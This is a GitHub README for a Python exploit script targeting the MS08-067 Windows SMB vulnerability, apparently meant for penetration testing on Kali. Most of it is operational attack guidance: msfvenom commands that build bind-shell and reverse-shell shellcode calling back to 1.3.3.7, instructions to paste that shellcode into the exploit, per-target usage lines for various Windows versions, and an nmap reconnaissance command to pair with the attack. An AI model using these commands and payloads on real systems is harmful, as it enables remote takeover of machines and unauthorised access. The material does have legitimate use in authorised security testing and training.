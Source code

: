 # MS08_067 Python Exploit Script - Updated 2018

This is an updated version of the super old MS08-067 Python exploit script.  It implements some fixes to allow easy exploitation on a wider range of configurations.

Cloned and edited from this repository:
https://github.com/jivoi/pentest/

## Installation on Kali

`git clone https://github.com/andyacer/ms08_067/`

**You'll need to update Kali's Impacket version to 0_9_17**

Here in 2018, Kali's package management is on an old version of Impacket.  Here's the steps on how to fix it:

```
git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
cd impacket
pip install .
```

## Update Notes

- Added support for selecting a target port at the command line.  It seemed that only 445 was previously supported.
- Changed library calls to correctly establish a NetBIOS session for SMB transport
- Changed shellcode handling to allow for variable length shellcode. Just cut and paste into this source file.

## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.  'Cause you're an awesome hacker like that.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
## Usage

Usage: ms08_067_2018.py <target ip> <os #> <Port #>

Example: MS08_067.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

Also: nmap has a good OS discovery script that pairs well with this exploit:
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1

